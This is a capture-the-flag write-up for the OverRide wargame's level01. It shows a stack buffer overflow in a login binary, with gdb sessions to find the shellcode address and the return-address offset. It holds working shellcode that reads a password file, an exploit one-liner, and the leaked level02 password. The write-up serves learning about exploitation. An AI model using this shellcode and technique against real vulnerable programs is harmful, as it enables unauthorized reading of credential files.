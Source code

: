 Same thing as the bonus0 of rainfall (we got two reads so we need to feed 2 arguments directly).
There is still a small difference, we can overflow the second read but not the first, since the first one is a global variable and the second has a pre-defined max length.

So, we first export our shellcode. This shellcode is different : it doesn't run a shell, but it outputs the content of a file's given path (found here: http://shell-storm.org/shellcode/files/shellcode-73.php) :

```bash
bonus0@RainFall:~$ export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level02/.pass")'`
```

Then we find the address of our shellcode :

```bash
level01@OverRide:~$ gdb -q level01 
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) r
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/100x *environ
0xffffd792:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a2:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b2:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c2:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d2:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e2:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f2:	0x90909090	0x90909090	0x90909090	0xdb31c031
```

It's storage begins at the address `0xffffd7d0` but to be sure, we will put `0xffffd7e2`'s stack address.

We then need to define when the buffer starts to overflow: (we know by looking inside the decompiled code that the username is `dat_wil`)
>level01@OverRide:~$ gdb -q ./level01 
>Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
>(gdb) r
>Starting program: /home/users/level01/level01 
>********* ADMIN LOGIN PROMPT *********
>Enter Username: dat_wil
>verifying username....
>Enter Password: 
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
>nope, incorrect password...
>Program received signal SIGSEGV, Segmentation fault.
>0x55555555 in ?? ()

So it segfaults from byte 81 to byte 84. That's where we need to put the address of the environment variable found previously :

>level01@OverRide:~$ { python -c 'print("dat_wil" * 20)'; python -c 'print("BBBB" * 20 + 3 * "\xe2\xd7\xff\xff")'; } | ./level01
>********* ADMIN LOGIN PROMPT *********
>Enter Username: verifying username....
>Enter Password: 
>nope, incorrect password...
>PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```bash
su level02
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

